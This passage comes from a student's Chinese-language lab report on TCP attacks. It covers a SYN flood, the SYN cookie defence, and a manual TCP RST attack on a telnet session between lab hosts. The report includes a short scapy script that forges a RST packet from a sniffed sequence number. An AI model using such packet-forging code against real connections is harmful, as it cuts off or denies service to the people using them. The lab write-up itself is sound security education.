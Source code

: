 ![image-20220510210543306](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510210543306.png)

攻击成功：

![image-20220510210218739](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510210218739.png)

> Please compare the results with the one using the Python program, and explain the reason behind the difference.

与python程序的差别在于：C程序运行比较快，使得发送SYN包的速度足够快，快速占满了SYN队列。



### Task 1.3: Enable the SYN Cookie Countermeasure

启用victim主机的SYN cookie机制：

![image-20220510211048909](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510211048909.png)

通过task1.2的方法再次攻击：

![image-20220510211216432](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510211216432.png)

这次telnet成功连接，说明攻击失败。

> SYN cookie机制的作用：
>
> - 接收到客户端的SYN包时，**不会立刻为连接分配资源**，而是根据SYN包计算一个cookie值作为SYN ACK包的**初始序列号**，并签名
> - 若客户端正常返回ACK包，则**验证签名**，根据ACK包中的源/目的IP等信息生成签名，与其确认序列号对比，验证服务器是否签过名，**若验证通过则分配资源并建立连接**；若**验证不通过或没有收到第三个ACK包**，则不会为非正常的连接分配资源
>
> 这一机制保证了在遭受SYN洪泛攻击时，受害者主机的半开连接队列的资源不会被耗尽，从而能接受观察者主机的正常连接。
>

## Task 2: TCP RST Attacks on telnet Connections

实现TCP RST攻击，终止两个victim之间已建立的TCP连接。

首先在10.9.0.6和10.9.0.7两台主机中建立telnet连接。

![image-20220511193807587](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511193807587.png)

### Launching the attack manually

使用wireshark进行抓包，选择网卡：

![image-20220511212212718](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511212212718.png)

可以从包中看到源&目的IP，源&目的端口号和序列号：

![image-20220511195705616](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511195705616.png)

补充py代码：

```python
#!/usr/bin/env python3
from scapy.all import *
# 补充源&目的IP
ip = IP(src="10.9.0.6", dst="10.9.0.7")	
# 补充源&目的端口号和序列号，可以从抓包的数据中看到Next sequence number: 3119783587
tcp = TCP(sport=45832, dport=23, flags="R", seq=3119783587)	
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```
